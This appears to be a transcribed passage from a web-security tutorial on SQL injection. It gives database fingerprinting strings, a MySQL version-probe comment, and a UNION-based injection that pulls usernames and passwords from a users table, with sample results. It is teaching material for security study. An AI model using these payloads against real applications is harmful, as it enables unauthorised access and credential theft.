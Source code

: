 If you're injecting into numeric data, the following attack strings can be used to fingerprint the database. Each of these items evaluates to 0 on the target database and generates an error on the other databases:
- **Oracle**: BITAND(1,1)-BITAND(1,1)
- **MS-SQL**: @@PACK_RECEIVED-@@PACK_RECEIVED
- **MySQL**: CONNECTION_ID() - CONNECTION_ID()

**Note: The MS-SQL and Sybase databases share a common origin, so they have many similarities in relation to table structure, global variables, and stored procedures. In practice, the majority of the attack techniques against MS-SQL described in later sections will work in an identical way against Sybase.**

An attacker can also fingerprint the exact version of the database. For example, injecting the following string causes the `WHERE` clause of a `SELECT` statement to be false if the MySQL version in use is greater than or equal to 3.23.02:
`/*!32302 and 1=0*/`

## The Union Operator
`UNION` is supported by all major DBMS products. It is the quickest way to retrieve arbitrary information from the databse in situations where query results are returned directly.

For example, searching for books published by Wiley causes the application to perform the following query:

```
SELECT author, title, year FROM books WHERE publisher='Wiley'
```

Suppose that this query returns the following set of results:

| AUTHOR     | TITLE                          | YEAR |
| ---------- | ------------------------------ | ---- |
| Litchfield | The Database Hacker's Handbook | 2005 |
| Anley      | The Shellcoder's Handbook      | 2007 |

We can imply a second query to extract data from a different database table. For example, entering the search term:

```
Wiley' UNION SELECT username, password, uid FROM users--
```

causes the application to perform the following query:

```
SELECT author, title, yera FROM books WHERE publisher = 'Wiley' UNION SELECT username, password, uid FROM users--'
```

This returns the results of the original search followed by the contents of the users table:

| AUTHOR     | TITLE                          | YEAR |
| ---------- | ------------------------------ | ---- |
| Litchfield | The Database Hacker's Handbook | 2005 |
| Anley      | The Shellcoder's Handbook      | 2007 |
| admin      | r00tr0x                        | 0    |
| cliff      | Reboot                         | 1    |
